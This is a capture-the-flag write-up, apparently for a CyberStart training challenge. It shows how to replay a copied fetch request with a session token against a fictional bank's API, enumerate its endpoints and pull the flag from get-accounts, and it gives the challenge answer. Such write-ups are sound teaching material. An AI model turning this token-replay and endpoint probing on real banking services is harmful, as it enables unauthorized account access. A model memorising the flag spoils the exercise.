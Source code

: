 ```yaml
---
title: Off Balance
permalink: /challenge/W0158/
---
```


### Briefing: 
We're hot on the heels of catching this cyber gang but the closer we get, the more damage they try to inflict onto the Barcelona tourism industry!

This time, they've hacked into a large international bank's mobile application. Customers of the bank are complaining they can't see their current **balance** and these criminal masterminds need to be held to **account**. Intern, help customers retrieve their balances, so they can continue to spend their money during their well-earned holidays!

Helping our international friends will really help develop our **network**.

### Hint: 
If you check out the Network tab in the developer tools of your browser while you click on different pages in the app, you can see there are requests being made to an API. Try using a Linux command line tool like curl to talk to the API directly to see if you can get at the account balance that way.


### How to Solve: 
1. Open the Console. 
2. Navigate to the **Network** tab. 
3. Click on **Transactions** in the phone menu. 
4. Right-click on `get-transactions` > Copy > Copy as fetch 
5. In the console, paste the fetch (including all options) and change the URL from `https://cloudninebank.com/get-transactions` to `https://cloudninebank.com/` and click enter.
```js
fetch("https://cloudninebank.com/", {
    "headers": {
        "accept": "*/*",
        "accept-language": "en-US,en;q=0.9",
        "content-type": "application/x-www-form-urlencoded",
        "sec-ch-ua": "\"Chromium\";v=\"106\", \"Microsoft Edge\";v=\"106\", \"Not;A=Brand\";v=\"99\"",
        "sec-ch-ua-mobile": "?0",
        "sec-ch-ua-platform": "\"Windows\"",
        "sec-fetch-dest": "empty",
        "sec-fetch-mode": "cors",
        "sec-fetch-site": "cross-site"
    },
    "referrer": "https://play.cyberstart.com/",
    "referrerPolicy": "strict-origin-when-cross-origin",
    "body": "token=CNcsmXX5d50ZQCG5Us4twDi18awV",
    "method": "POST",
    "mode": "cors",
    "credentials": "omit"
});
```
6. Under **Name** (the list of all network requests), click on **cloudninebank.com** and go to **Response**. 
```json
{
    "data": {
        "endpoint": {
            "ref": "index",
            "protocol": "https://",
            "domain": "cloudninebank.com",
            "path": "/"
        },
        "user": {
            "id": "xgHof4h98"
        }
    },
    "links": {
        "get-accounts": "https://cloudninebank.com/get-accounts",
        "get-payments": "https://cloudninebank.com/get-payments",
        "get-transactions": "https://cloudninebank.com/get-transactions"
    }
}
```
7. Observe the links as there is no `get-balances` rather there is `get-accounts`. 
8. Go back to the console and make another fetch to `https://cloudninebank.com/get-accounts` with the same headers. 
9. Navigate to the Response tab once again and find `flag`, your flag should be there. 

### Answer:
- postD4ta_w1zard